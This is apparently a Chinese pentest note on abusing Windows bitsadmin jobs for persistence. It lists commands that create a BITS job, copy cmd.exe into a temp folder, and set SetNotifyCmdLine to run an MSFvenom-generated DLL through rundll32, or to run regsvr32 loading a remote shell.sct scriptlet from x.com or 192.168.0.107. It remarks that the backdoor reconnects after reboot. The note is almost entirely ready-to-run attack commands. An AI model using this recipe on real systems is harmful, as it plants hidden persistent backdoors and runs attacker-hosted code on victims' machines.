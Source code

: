 	创建下载任务
	>bitsadmin /create empire
	下载的文件设置
	>bitsadmin /addfile empire %comspec% c:\windows\temp\1.exe
	设置传输时运行的命令,MSFvenom生成dll放入temp目录
	>bitsadmin /SetNotifyCmdLine empire cmd.exe "cmd.exe /c rundll32 c:\windows\temp\1.dll,0"
	(bitsadmin /SetNotifyCmdLine backdoor regsvr32.exe "/u /s /i:https://x.com/shell.sct scrobj.dll")
	启动任务
	>bitsadmin /resume empire
	列出所有用户的下载任务
	>bitsadmin /list /allusers /verbose
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/459.png)


	重启后也会上线
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/460.png)

	完成任务
	>bitsadmin /complete empire
	>bitsadmin /cancel <Job> //删除某个任务
	>bitsadmin /reset /allusers //删除所有任务
	&
	>bitsadmin /create mission
	>bitsadmin /addfile mission %comspec% %temp%\cmd.exe
	>bitsadmin.exe /SetNotifyCmdLine mission regsvr32.exe "/u /s /i:http://192.168.0.107/shell.sct scrobj.dll"
	>bitsadmin /Resume mission